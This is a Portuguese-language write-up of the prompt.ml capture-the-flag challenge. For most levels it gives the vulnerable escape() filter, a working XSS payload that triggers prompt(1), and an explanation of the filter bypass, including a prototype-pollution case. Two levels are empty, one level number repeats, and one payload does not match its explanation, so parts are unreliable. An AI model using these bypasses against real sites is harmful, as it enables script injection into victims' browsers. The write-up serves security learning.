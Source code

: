 # Cross-site scripting (XSS) 
###### Solved by @Mayaracar2
> This is a CTF about JavaScript analysis, xss script
## Desafio: Prompt.ml
### Sobre o desafio:
O prompt.ml é uma série de desafios de XSS (Cross-Site Scripting) organizada em níveis, cada um apresentando uma função escape() diferente que impõe filtros específicos na entrada do usuário, e tem como objetivo explorar vulnerabilidades para conseguir rodar código JavaScript, usando o prompt(1) como prova de que o XSS foi bem sucedido.
- [Página do desafio](https://prompt.ml/0)
  
## Soluções:
### Fase 0
Este é o código dado:

```bash
 function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
}        
```
Este código é uma função que tem como objetivo criar uma string HTML contendo um elemento de input, porém o input é inserido diretamente no HTML sem escapar caracteres perigosos como `>`, `<script>`, entre outros, o que permite que um atacante quebre o atributo `value` e injete código arbitrário.

Para explorarmos essa vulnerabilidade usaremos:

```bash
"><script>prompt(1)</script>`
```

Por que funciona?

-Fecha o atributo value usando `>`, escapando do contexto onde o conteúdo deveria ser tratado apenas como texto.

-Em seguida, ele insere uma tag `<script>`, que o navegador reconhece e executa como código JavaScript, visto que a função não realiza nenhum filtro ou escape dos caracteres especiais (<, >, "), o navegador interpreta a injeção como parte do HTML, em vez de simples texto, permitindo a execução do script malicioso.

### Fase 1
Este é o código dado:

```bash
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}         
```
Neste código, a função recebe um input e remove todas as tags HTML usando uma expressão regular (stripTagsRE).

Para explorarmos essa vulnerabilidade usaremos:

```bash
<svg/onload=prompt(1)
```

Por que funciona?

`<svg/`: A regex falha em detectá-lo como tag devido à sua sintaxe incomum, porém passa "ileso".

`onload=prompt(1)`: Atributo de evento JavaScript que é disparado, executando o prompt(1).

### Fase 2
Este é o código dado:

```bash
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}        
```

Nesse código, tem uma função de escape que remove caracteres específicos como `(=` e `()` de uma string de entrada.

Para explorarmos essa vulnerabilidade usaremos:

```bash
<svg><script>prompt&#40;1)</script>
```

Por que funciona?

`<svg>`: Utilizado como uma "camuflagem", na qual a tag é permitida pelo navegador, ativando o modo SVG e dentro dele, é possivel rodar o <script> normalmente.

`prompt&#40;1)`: O `&#40;` é decodificado pelo navegador como ( , com base no  [HTML entities](https://www.freeformatter.com/html-entities.html).

### Fase 3
Este é o código dado:

```bash
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}        
```
Nesse código, a função de escape adiciona o input dentro de um comentário HTML, evitando a execução de scripts maliciosos, substituindo `->`por `_`.

Para explorarmos essa vulnerabilidade usaremos:

```bash
--!><svg onload=prompt(1)
```

Por que funciona?

`--!>`: Como o código não aceita ->, é preciso fechar o comentário para depois o payload ser executado.

### Fase 4
Este é o código dado:

```bash

       
```
Para explorarmos essa vulnerabilidade usaremos:

```bash

```

Por que funciona?

### Fase 5
Este é o código dado:

```bash
function escape(input) {
    // apply strict filter rules of level 0
    // filter ">" and event handlers
    input = input.replace(/>|on.+?=|focus/gi, '_');

    return '<input value="' + input + '" type="text">';
}            
```
Este código, impede de gerar tags devido o bloqueio do `>`, bloqueia também qualquer atributo de evento como o anload=, onclick=, onerror=, devido o `on.+?`, além de bloquear a palavra `focus`.

Para explorarmos essa vulnerabilidade usaremos:

```bash
"type=image src onerror
="prompt(1)
```

Por que funciona?

O filtro usou regex fraco (. não casa quebras de linha).

O atacante inseriu uma quebra de linha entre o nome do evento e o sinal =.

O navegador ignora a quebra e interpreta como atributo válido `(onerror=)`.

O onerror dispara quando a imagem não carrega → `prompt(1)` executa.

### Fase 6
Este é o código dado:

```bash
function escape(input) {
    // let's do a post redirection
    try {
        // pass in formURL#formDataJSON
        // e.g. http://httpbin.org/post#{"name":"Matt"}
        var segments = input.split('#');
        var formURL = segments[0];
        var formData = JSON.parse(segments[1]);

        var form = document.createElement('form');
        form.action = formURL;
        form.method = 'post';

        for (var i in formData) {
            var input = form.appendChild(document.createElement('input'));
            input.name = i;
            input.setAttribute('value', formData[i]);
        }

        return form.outerHTML + '                         \n\
<script>                                                  \n\
    // forbid javascript: or vbscript: and data: stuff    \n\
    if (!/script:|data:/i.test(document.forms[0].action)) \n\
        document.forms[0].submit();                       \n\
    else                                                  \n\
        document.write("Action forbidden.")               \n\
</script>                                                 \n\
        ';
    } catch (e) {
        return 'Invalid form data.';
    }
}          
```

No código, a função recebe uma entrada no formato `URL#JSON`, gerando um formulário HTML a partir dos dados do JSON e realizando automaticamente o envio por POST.

Para explorarmos essa vulnerabilidade usaremos:

```bash
javascript:prompt(1)#{"action":1}
```

Por que funciona? 

- Quando você coloca `javascript:` em um link (ou na barra do navegador), tudo depois de javascript: é avaliado como código JavaScript.

- O navegador interpreta apenas a parte antes do # como código JavaScript.

- Tudo após o # é tratado como fragmento da URL (hash), o navegador não executa isso como código.

### Fase 7
Este é o código dado:

```bash
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}        
```
No código a função recebe uma string com títulos separados por # e limita cada título a cada 12 caracteres e transforma cada um em uma tag <p> com classe comment e atributo title. Depois junta tudo em uma string com quebra de linha.

Para explorarmos essa vulnerabilidade usaremos:

```bash
"><svg/m=#"onload='/*#*/prompt(1)'
```

Por que funciona? 

`>`: fecha o value

`<svg>`: Entra no svg e para confundir/fechar atributos anteriores, acrescentamos uma `/` e `m=#` é só algo que faz o navegador não quebrar, mas não é usado depois.

`onload='prompt(1)'`: Usado para disparar o prompt(1), logo depois da tag ser carregada.

`/*#*/`: Comentário usado para burlar filtros de caracteres, ele é necessário porque o navegador ignora o comentário, porém ele quebra o padrão que o filtro procura.

### Fase 8
Este é o código dado:

```bash
function escape(input) {
    // prevent input from getting out of comment
    // strip off line-breaks and stuff
    input = input.replace(/[\r\n</"]/g, '');

    return '                                \n\
<script>                                    \n\
    // console.log("' + input + '");        \n\
</script> ';
}        
```
Nesse código, a função escape remove quebra de linh, aspas e alguns caracteres HTML, inserindo a string dentro de um comentário em <script> com um console.log.

Para explorarmos essa vulnerabilidade usaremos:

```bash
javascript:prompt(1)#{"action":1}
```
(executado no console)

Por que funciona? 

Funciona porque `\u2028` em JavaScript é interpretado como uma quebra de linha, portanto encerra o comentário e passa a executar o prompt(1).

### Fase 8
Este é o código dado:

```bash
function escape(input) {
    // filter potential start-tags
    input = input.replace(/<([a-zA-Z])/g, '<_$1');
    // use all-caps for heading
    input = input.toUpperCase();

    // sample input: you shall not pass! => YOU SHALL NOT PASS!
    return '<h1>' + input + '</h1>';
}        
```
O código procura qualquer tag HTML que começa com < e é seguido de letra ele adiciona em _ depois <.

Para explorarmos essa vulnerabilidade usaremos:

```bash
<ſvg/onload=&#112;&#114;&#111;&#109;&#112;&#116;&#40;&#49;&#41;>
```
Por que funciona? 

`ſvg`: Um caracter unicode (U+ 017F) que visualmente parece com s, então é aceito como equivalente.

`onload=`: Dispara quando o elemento é carregado.

`&#112;&#114;&#111;&#109;&#112;&#116;&#40;&#49;&#41;`: São entidades númericas HTML que representa caracteres ASCII, que quando interpretado, converte para texto normal.

`&#112;` → p

`&#114;` → r

`&#111;` → o

`&#109;` → m

`&#112;` → p

`&#116;` → t

`&#40;` → (

`&#49;` → 1

`&#41;` → )

### Fase A
Este é o código dado:

```bash
function escape(input) {
    // (╯°□°）╯︵ ┻━┻
    input = encodeURIComponent(input).replace(/prompt/g, 'alert');
    // ┬──┬ ﻿ノ( ゜-゜ノ) chill out bro
    input = input.replace(/'/g, '');

    // (╯°□°）╯︵ /(.□. \）DONT FLIP ME BRO
    return '<script>' + input + '</script> ';
}        
```

A função aplica codificação e manipulações no input para bloquear o uso de prompt, mas insere o resultado diretamente dentro de uma tag <script>.

Para explorarmos essa vulnerabilidade usaremos:

```bash
p'rompt(1)
```
Por que funciona? 

A sequência `p'rompt(1)` é usada para driblar filtros básicos que bloqueiam diretamente a palavra prompt e ao inserir um caractere extra, como ', dentro do termo, o filtro não identifica a palavra completa e permite que ela passe. 

### Fase B
Este é o código dado:

```bash
function escape(input) {
    // name should not contain special characters
    var memberName = input.replace(/[[|\s+*/\\<>&^:;=~!%-]/g, '');

    // data to be parsed as JSON
    var dataString = '{"action":"login","message":"Welcome back, ' + memberName + '."}';

    // directly "parse" data in script context
    return '                                \n\
<script>                                    \n\
    var data = ' + dataString + ';          \n\
    if (data.action === "login")            \n\
        document.write(data.message)        \n\
</script> ';
}        
```
O código cria uma função chamada escape(input) que tenta higienizar o valor recebido (como um nome de usuário), transforma esse valor em JSON e depois o insere dentro de uma tag <script>.

Para explorarmos essa vulnerabilidade usaremos:

```bash
"(prompt(1))in"
```

Por que funciona? 

Funciona porque o filtro não bloqueia, e no contexto do <script> o JS interpreta (prompt(1)) como uma chamada de função legítima, e o in serve para que o código continue sendo uma expressão válida e não quebre o script.

### Fase C
Este é o código dado:

```bash
function escape(input) {
    // in Soviet Russia...
    input = encodeURIComponent(input).replace(/'/g, '');
    // table flips you!
    input = input.replace(/prompt/g, 'alert');

    // ノ┬─┬ノ ︵ ( \o°o)\
    return '<script>' + input + '</script> ';
}        
```

A função escape(input) codifica o valor recebido com encodeURIComponent, elimina caracteres de aspas simples e troca qualquer ocorrência da palavra prompt por alert. Em seguida, insere esse conteúdo diretamente dentro de uma tag <script>.

Para explorarmos essa vulnerabilidade usaremos:

```bash
eval(630038579..toString(30))(1)
```

Por que funciona? 

Esse código funciona porque o número 630038579 convertido para base 30 vira a string "eval". Assim, ele reconstroi dinamicamente a função eval e a executa com argumento 1.

### Fase D
Este é o código dado:

```bash
function escape(input) {
    // extend method from Underscore library
    // _.extend(destination, *sources) 
    function extend(obj) {
        var source, prop;
        for (var i = 1, length = arguments.length; i < length; i++) {
            source = arguments[i];
            for (prop in source) {
                obj[prop] = source[prop];
            }
        }
        return obj;
    }
    // a simple picture plugin
    try {
        // pass in something like {"source":"http://sandbox.prompt.ml/PROMPT.JPG"}
        var data = JSON.parse(input);
        var config = extend({
            // default image source
            source: 'http://placehold.it/350x150'
        }, JSON.parse(input));
        // forbit invalid image source
        if (/[^\w:\/.]/.test(config.source)) {
            delete config.source;
        }
        // purify the source by stripping off "
        var source = config.source.replace(/"/g, '');
        // insert the content using mustache-ish template
        return '<img src="{{source}}">'.replace('{{source}}', source);
    } catch (e) {
        return 'Invalid image data.';
    }
}        
```

O código recebe um JSON com a URL de uma imagem, aplica configurações padrão por meio de extend, faz uma validação simplificada da URL usando regex e depois gera uma tag substituindo diretamente {{source}}.


Para explorarmos essa vulnerabilidade usaremos:

```bash
{"source":{},"__proto__":{"source":"$`onerror=prompt(1)>"}}
```

Por que funciona? 

Isso funciona porque o extend() permite poluir o `__proto__`, o que injeta a propriedade source maliciosa dentro de config. A regex de validação não é suficiente para bloquear isso, e o valor injetado vai parar dentro do src da <img>, ativando o onerror.

### Fase E
Este é o código dado:

```bash

```

Para explorarmos essa vulnerabilidade usaremos:

```bash

```

Por que funciona? 

### Fase F
Este é o código dado:

```bash
function escape(input) {
    // sort of spoiler of level 7
    input = input.replace(/\*/g, '');
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');

    return segments.map(function(title, index) {
        // title can only contain 15 characters
        return '<p class="comment" title="' + title.slice(0, 15) + '" data-comment=\'{"id":' + index + '}\'></p>';
    }).join('\n');
}        
```
No código, a função escape recebe um texto no formato `texto1#texto2#texto3...` e realiza várias operações para gerar conteúdo HTML estruturado:

- Remoção de caracteres especiais:

Inicialmente, todos os asteriscos (*) presentes no input são eliminados, evitando que eles interfiram na formatação ou no conteúdo dos parágrafos gerados.

- Divisão do texto em segmentos:

O input é separado usando o caractere `#` como delimitador, cada pedaço entre os # se torna um segmento independente que será transformado em um parágrafo.

- Geração de parágrafos HTML:

Para cada segmento criado, a função gera uma tag `<p>` no HTML.

Cada parágrafo recebe dois atributos especiais:

`title`: contém os primeiros 15 caracteres do segmento e esses caracteres não passam por sanitização, ou seja, são inseridos diretamente no HTML.

`data-comment`: contém um JSON seguro no formato {"id": índice}, em que o índice representa a posição do segmento na lista.

Dessa forma, a função transforma um texto delimitado por `#` em múltiplos parágrafos HTML, cada um com metadados associados de forma estruturada e segura (para o JSON), mas deixando o conteúdo textual parcialmente exposto no atributo title.

Para explorarmos essa vulnerabilidade usaremos:

```bash
"><svg><!--#--><script><!--#-->prompt(1<!--#-->)</script>
```

Por que funciona? 

O filtro da função escape não impede a injeção, porque ele só remove * e limita o tamanho do título, não escapa caracteres especiais como " ou <, o payload fecha o atributo title (">) e insere tags diretamente no HTML.

Os comentários HTML `<!--#-->` são ignorados pelo navegador, mas enganam o filtro, permitindo que prompt(1) seja executado sem ser detectado.
